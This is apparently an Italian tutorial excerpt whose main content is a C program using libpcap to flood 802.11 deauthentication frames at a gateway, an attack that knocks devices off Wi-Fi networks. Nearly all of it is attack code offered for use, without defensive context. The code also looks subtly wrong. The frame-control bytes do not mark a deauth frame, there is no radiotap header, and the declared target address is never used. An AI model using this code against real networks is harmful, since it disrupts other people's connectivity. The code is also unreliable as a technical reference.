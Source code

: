 ## Esempio in linguaggio C

Per inviare pacchetti di deautenticazione in C, è possibile utilizzare la libreria `libpcap`, che permette la cattura e l'invio di pacchetti di rete. Di seguito è riportato un esempio di codice in C che invia pacchetti di deautenticazione a un indirizzo MAC:

```
#include <pcap.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define MAC_ADDR_LEN 6

void send_deauth_packet(pcap_t *handle, const uint8_t *target_mac, const uint8_t *gateway_mac) {
    uint8_t deauth_packet[26] = {
        0x00, 0x00, // Frame Control
        0x00, 0x00, // Duration
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, // Destination (broadcast)
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // Source (will be set later)
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // BSSID (will be set later)
        0x00, 0x00, // Sequence Control
        0x07, 0x00  // Reason Code (7: Class 3 frame received from nonassociated STA)
    };

    // Set Source MAC and BSSID to gateway MAC
    memcpy(deauth_packet + 10, gateway_mac, MAC_ADDR_LEN);
    memcpy(deauth_packet + 16, gateway_mac, MAC_ADDR_LEN);

    // Send the packet multiple times
    for (int i = 0; i < 100; ++i) {
        if (pcap_sendpacket(handle, deauth_packet, sizeof(deauth_packet)) != 0) {
            fprintf(stderr, "Error sending the packet: %s\n", pcap_geterr(handle));
            return;
        }
        usleep(100000); // Sleep for 100ms
    }
}

int main() {
    char errbuf[PCAP_ERRBUF_SIZE];
    pcap_t *handle;

    const char *dev = "wlan0"; // Network interface
    const uint8_t target_mac[MAC_ADDR_LEN] = {0xAA, 0xBB, 0xCC, 0xDD, 0xEE, 0xFF}; // Target MAC (invented)
    const uint8_t gateway_mac[MAC_ADDR_LEN] = {0x11, 0x22, 0x33, 0x44, 0x55, 0x66}; // Gateway MAC (invented)

    handle = pcap_open_live(dev, BUFSIZ, 1, 1000, errbuf);
    if (handle == NULL) {
        fprintf(stderr, "Couldn't open device %s: %s\n", dev, errbuf);
        return 2;
    }

    send_deauth_packet(handle, target_mac, gateway_mac);

    pcap_close(handle);
    return 0;
}

```
